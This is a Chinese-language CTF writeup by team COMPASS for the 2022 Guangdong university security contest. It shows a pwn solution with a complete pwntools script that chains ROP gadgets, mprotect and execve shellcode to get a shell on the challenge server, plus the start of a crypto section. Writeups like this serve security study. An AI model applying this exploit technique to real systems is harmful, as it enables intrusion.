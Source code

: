 ```yaml
---
title: 2022 广东省赛 Writeup by COMPASS
tags: ['Writeup', 'Guangdong']
categories: Writeup
date: 2023-02-21 00:00:00
toc: true
---
```


>**(第二届广东大学生网络安全攻防大赛)**  
>**【HED CTF / COMPASS CTF】 WriteUp**  
>**Rank:9** （total 504） Solve:8 Pts:1947



## Pwn
### Pwn | jmp_rsp (235pt)
**写WP时候发现远程的bss是RWX的，直接ret2bss就完了，为什么IDA和readelf都说bss是RW的呢？**  
**更惨的是，这题好像有jmp rsp的gadget。。。**  
**怎么有不读题就开始造链子的人呢 XD 可能这就是我变不PWN的原因吧** 

checksec显示有canary，其他保护全无，栈段RWX  
IDA打开，程序逻辑非常简单，在read处也无canary，但是看起来这是个静态编译的二进制，没有引用的外部函数。  
先想到的是：写bss格式化字符串 + printf rop泄露栈地址 + 栈上ret2shellcode  
但是大概是没设置小缓冲区的原因，程序直到退出才吐出输出，在远程就拿不到任何输出，所以考虑不利用输出的getshell  
这题没有libc也不能ret2dl，但是有mprotect函数，可以改段权限，于是构造：  
shellcode写到bss + mprotect改bss权限 + bss上ret2shellcode  
 

exp:
```python
from pwn import p64
from pwn import *

# context.log_level = "debug"
e = ELF('jmp_rsp')
p = remote("47.106.122.102", 45286)
# p = e.process()
read_addr = 0x449380  # elf.sym["read"]
vul_addr = 0X400b5d
mprot_addr = 0x44a160
printf = 0x40f690
rdi = 0x401902
rsi_r15 = 0x401900
bss_addr = e.bss()
print(bss_addr)
p_write_bss = b'a' * 0x88 + p64(rdi) + p64(0) + p64(rsi_r15) + p64(bss_addr) + b'a' * 8 + p64(read_addr) + p64(vul_addr)
p.send(p_write_bss + b'c' * (0x100 - len(p_write_bss)))
shell_code = \
    b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
p.send(shell_code + b'c' * (0x100 - len(shell_code)))

payload = b'a' * 0x88 + p64(0x4018F5) + p64(vul_addr) + p64(0) + p64(1) + p64(mprot_addr) + p64(7) + p64(0x100000) + p64(0x600000) + p64(bss_addr)
p.send(payload + b'c' * (0x100 - len(payload)))
p.interactive()
```
## Crypto
### Crypto | crypto-xor2 (114pt)
想起了HackNat里边的一个剧情：一个人把他的密码设成\*\*\*\*\*\*\*，这样如果有一天密码被盗了，别人也会以为没拿到真正的密码。    
